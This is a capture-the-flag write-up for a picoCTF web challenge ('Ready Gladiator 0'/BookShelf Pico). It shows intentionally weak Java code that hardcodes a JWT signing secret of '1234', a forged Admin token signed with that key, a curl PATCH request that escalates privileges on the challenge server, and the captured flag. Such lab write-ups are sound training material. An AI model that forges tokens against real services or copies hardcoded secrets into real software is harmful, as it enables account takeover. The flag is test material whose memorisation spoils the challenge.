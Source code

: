 # Ready Gladiator 0

## Challenge

### Description

BookShelf Pico, my premium online book-reading service.

I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!

Here are the credentials to get you started:

```
    Username: "user"
    Password: "user"
```

### Hints

1. Maybe try to find the JWT Signing Key ("secret key") in the source code? Maybe it's hardcoded somewhere? Or maybe try to crack it?
2. The 'role' and 'userId' fields in the JWT can be of interest to you!
3. The 'controllers', 'services' and 'security' java packages in the given source code might need your attention. We've provided a README.md file that contains some documentation.
4. Upgrade your 'role' with the new (cracked) JWT. And re-login for the new role to get reflected in browser's localStorage.

## Solution

When we log in, the user is created with this JWT token:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTY4MDYzMzk2NCwiaWF0IjoxNjgwMDI5MTY0LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.ZMo3mCcmwUUJiAS5NTWxvjLuZwiC1wEPHZcM96DGLJ4
```

Storing payload

```json
{
  "role": "Free",
  "iss": "bookshelf",
  "exp": 1680633964,
  "iat": 1680029164,
  "userId": 1,
  "email": "user"
}
```

From the source code, we can see that the JWT token use a secret key generated by a `generateServerSecret()` function which actually just use a string `1234`.

```java
private String generateRandomString(int len) {
    // not so random
    return "1234";
}

String getServerSecret() {
    try {
        String secret = new String(FileOperation.readFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME), Charset.defaultCharset());
        logger.info("Server secret successfully read from the filesystem. Using the same for this runtime.");
        return secret;
    }catch (IOException e){
        logger.info(SERVER_SECRET_FILENAME+" file doesn't exists or something went wrong in reading that file. Generating a new secret for the server.");
        String newSecret = generateRandomString(32);
        try {
            FileOperation.writeFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME, newSecret.getBytes());
        } catch (IOException ex) {
            ex.printStackTrace();
        }
        logger.info("Newly generated secret is now written to the filesystem for persistence.");
        return newSecret;
    }
}
```

We confirm this is true by generating a JWT token with the above payload and signing it with `1234` secret key and confirming the signature matched, which it did.

We generate a new JWT token with `Admin` role and sign it with `1234` and use it to upgrade `user` privilege. Using payload

```json
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1680634964,
  "iat": 1680029164
}
```

Which gives us token

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE2ODA2MzQ5NjQsImlhdCI6MTY4MDAyOTE2NH0.3AyN6RAbauUBPq1dx1LU0X0PUeUMv3Z1s1jsIuC3_R0
```

Using this token to send a PATCH request

```bash
$ curl -X PATCH -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE2ODA3MzA2OTQsImlhdCI6MTY3NjcyMDY5NH0.sFZV3gZOFUj72M4WFGj7Z5zumUJ26-wwqMJ6ZnEnsV4" http://saturn.picoctf.net:65473/base/users/role -d '{"id": 1, "role": "Admin"}'
{"type":"SUCCESS","payload":"Role successfully updated."}
```

Re-logging into `user` and get the flag by reading the flag book.

## Flag

picoCTF{w34k_jwt_n0t_g00d_d7c2e335}
